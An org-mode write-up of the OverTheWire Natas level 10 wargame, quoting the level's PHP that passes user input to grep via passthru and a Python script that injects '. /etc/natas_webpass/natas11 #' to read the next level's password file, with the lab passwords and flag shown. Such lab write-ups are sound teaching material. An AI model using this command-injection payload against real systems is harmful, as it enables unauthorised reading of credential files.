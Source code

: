:PROPERTIES:
:ID:       cbf374b4-6fb3-4971-83c0-cda46f57beab
:END:
#+title: Natas10
* Previous
[[id:91399b5f-500e-4e34-b6f1-f37f8148be9f][Natas9]]

* Password
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

* Flag
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

* Notes

Same as before, but with some filtering:
#+begin_quote
For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>
#+end_quote

From the source code:
#+begin_quote
<?
$key = "";

if(array_key_exists("needle",$_REQUEST)){
    $key=$_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&amp;]/', $key)) {
        print "Input contains an illegal character!";
    } 
    else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
#+end_quote

So `;`, `;` and `&` char are not alowed, but this does not prevent our previous attack as we are only using "#" to comment out the rest of the command.

#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
import html
from bs4 import BeautifulSoup as bs
from natas_pass import passwords

session = requests.Session()
username = "natas10"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/".format(username)

# response = session.get(url, auth=(username, password))
# content = response.text
# print(content)

# response = session.get(url + "index-source.html", auth=(username, password))
# raw_content = response.text
# sourcecode = html.unescape(raw_content)
# soup = bs(sourcecode)
# print(soup.prettify())

response = session.post(
    url,
    auth=(username, password),
    data={"needle":". /etc/natas_webpass/natas11 #"}
)
raw_content = response.text
sourcecode = html.unescape(raw_content)
soup = bs(sourcecode)
# print(soup.prettify())

p = re.findall("([a-zA-Z0-9]{32})", raw_content)

if p and p[0] == password:
    p.pop(0)

print(p[0])
#+end_src

#+RESULTS:
: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

* Next
[[id:fa870da3-03df-4ed4-8282-bf34abc24f11][Natas11]]
